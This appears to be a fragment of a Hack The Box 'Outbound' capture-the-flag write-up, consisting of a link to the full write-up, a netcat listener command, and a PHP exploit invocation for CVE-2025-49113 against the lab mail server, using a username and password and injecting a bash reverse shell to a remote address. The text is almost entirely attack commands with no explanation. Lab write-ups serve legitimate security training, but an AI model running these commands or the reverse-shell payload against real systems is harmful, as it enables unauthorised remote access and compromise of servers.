 https://www.1337sheets.com/p/hack-the-box-htb-outbound-writeup-easy-season-weekly-july-th

nc -lvnp 1234

php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'bash -i >& /dev/tcp/10.10.16.32/1234 0>&1'"
